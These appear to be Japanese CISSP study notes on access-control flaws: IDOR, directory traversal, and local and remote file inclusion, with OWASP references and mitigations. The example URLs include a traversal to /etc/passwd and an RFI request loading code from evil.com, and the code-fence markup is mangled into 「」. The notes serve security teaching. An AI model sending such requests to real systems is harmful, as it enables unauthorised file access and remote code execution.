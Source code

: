   ```sql

### 認証の脆弱性を悪用する

認証の脆弱性により、攻撃者は脆弱なアクセス制御メカニズムを回避または悪用し、本来の権限を超えたデータやリソースへのアクセスが可能になります。これらの欠陥は**最小権限の原則**に違反し、重大な侵害につながる可能性があります。

#### OWASP
- **Open Worldwide Application Security Project (OWASP)** は、ソフトウェア セキュリティの向上に重点を置いた非営利団体です。
- 維持:
  - **OWASP Top 10**: 重大なWebアプリケーションのリスク  
    👉 https://owasp.org/www-project-top-ten/
  - **OWASP プロアクティブコントロール**: 開発者向けセキュリティプラクティス  
    👉 https://owasp.org/www-project-proactive-controls/

🧠 **CISSP インサイト**: OWASP が安全なアプリケーション開発、テスト、教育のための標準とツールを提供していることを理解します。

#### 安全でない直接オブジェクト参照
- アプリケーションが適切な承認チェックを実施せずに内部オブジェクト参照 (ドキュメント ID、アカウント番号など) を公開した場合に発生します。
- 例：
  「」
  https://example.com/getDocument.php?documentID=123
  「」
  ID を別の値に変更すると、不正アクセスが発生する可能性があります。
  「」
  https://example.com/getDocument.php?documentID=124
  「」

- 実際の事例: 2018年、カナダの10代の若者が、ノバスコシア州の情報公開ウェブサイトのURLを変更してIDORを発見したとして起訴されました。

🚨 **重要な概念**: IDOR は、OWASP Top 10 の **アクセス制御の不備** の問題です。サーバー側の承認チェックを確実に実施してください。

#### ディレクトリトラバーサル
- 攻撃者は、`../` などのパス トラバーサル シーケンスを使用して、ルート Web ディレクトリを超えて不正なファイルにアクセスします。
- 例：
  「」
  http://example.com/view?file=../../etc/passwd
  「」

- この攻撃は以下を悪用します:
  - 入力データのサニタイズが不十分
  - ファイルアクセス制限がない

🛡️ **軽減策**:
- パスを正規化し、入力を制限する
- ファイルシステムとアプリレベルでアクセス制御を実装する

#### ファイルインクルード攻撃
- 攻撃者は、脆弱なアプリケーションにファイル パスを挿入して、**ファイルを読み込んで実行します**。
- 2つのタイプ:
  
##### ローカルファイルインクルード (LFI)
- サーバー上に既に存在するファイルを実行します。
- 例：
  「」
  http://example.com/page.php?file=../../uploads/attack.php
  「」

##### リモートファイルインクルード (RFI)
- 攻撃者が制御するリモート コードを実行します。
- 例：
  「」
  http://example.com/page.php?file=http://evil.com/malware.php
  「」
  ```
